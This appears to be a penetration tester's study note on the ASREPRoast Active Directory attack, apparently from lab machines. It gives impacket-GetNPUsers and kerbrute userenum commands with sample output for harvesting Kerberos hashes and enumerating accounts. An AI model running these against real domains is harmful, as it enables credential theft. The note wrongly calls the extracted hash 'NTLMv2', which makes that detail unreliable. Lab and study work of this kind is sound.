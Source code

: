 ```yaml
---
description: >-
  ASREPRoast Attack
title: ASREPRoast Attack             # Add title here
date: 2023-02-08 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Enumeration]                     # Change Templates to Writeup
tags: [active directory, enumeration, asreproast]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Unauthenticated

If we get valid users we can try to request TGT tickets to authenticate as another user:

> Remember to add the name of the domain controller into the /etc/hosts for this command to work.
{: .prompt-tip }
```bash
impacket-GetNPUsers scrm.local/ -no-pass -usersfile ../content/validUsers
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User ASMITH@scrm.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User JHALL@scrm.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User KSIMPSON@scrm.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User KHICKS@scrm.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SJENKINS@scrm.local doesn't have UF_DONT_REQUIRE_PREAUTH set
```

### Kerbrute
Kerbrute extracts the NTLMv2 hash automatically if two conditions are meet:
* If the user is valid.
* If the user has no pre auth required.
```bash
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 /usr/share/seclists/Kerberos/A-ZSurnames.txt
```
[[Sauna#^9e845d]]
